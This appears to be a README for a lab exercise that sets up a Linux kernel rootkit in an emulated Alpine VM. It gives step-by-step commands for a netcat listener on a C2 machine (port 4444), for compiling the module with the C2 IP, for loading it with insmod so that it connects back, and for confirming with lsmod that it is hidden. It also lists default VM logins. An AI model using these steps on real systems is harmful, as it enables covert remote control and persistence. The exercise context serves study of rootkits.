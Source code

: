 # Rootkit documentation

#
To operate our software we need two machines.
The first is our target (aka alpine) and the second our C2.
For the need of exercice we emulate our alpine on a debian machine (aka host).

Previously, you need 
    On host : 
        Download Linux Kernel : `wget https://cdn.kernel.org/pub/linux/kernel/v6.x/linux-6.10.tar.gz`
        Unzip it : `tar -xvf linux-6.10.tar.gz`
        Assume to have the following tree :
            tree
    On C2 : 
        Install : netcat

In our C2 we have installed : netcat

On the host, run script.sh file with :
> sh script.sh
To create the quemu alpine.

After the prossess finish. On the alpine, login you with the user `root` and create a share directory:
> mkdir -p /tmp/share
> mount -t 9p -o trans=virtio host0 /tmp/share -oversion=9p2000.L

Then, check the ip of your alpine and your C2.


In Debian host, on `rootkit.c` file, change SERVER_IP adresse with your C2 IP.
Running `make` compile `rootkit.c` file and copy it on the /tmp/qemu-share/ directory.
> root@debian-host:~/modules# make
> root@debian-host:~/modules# cp rootkit.ko /tmp/qemu-share/

On C2 :
root@debian-c2:~# nc -lnvp 4444
Command explanation :
nc: Netcat abbreviation.
-l: listen for incoming connections.
-n: prevents DNS resolution (will not attempt to resolve hostnames).
-v: verbose mode.
-p 4444: port number on which Netcat will listen for incoming connections.

Back to our alpine :
Run our rootkit : 
> root@alpine:~/tmp/share/# insmod *.ko 
After execution, you should have the connection confirmation.

We can check, our rootkit is hid from module list :
> lsmod



Information
Alpine user's :
- root:root
- user:password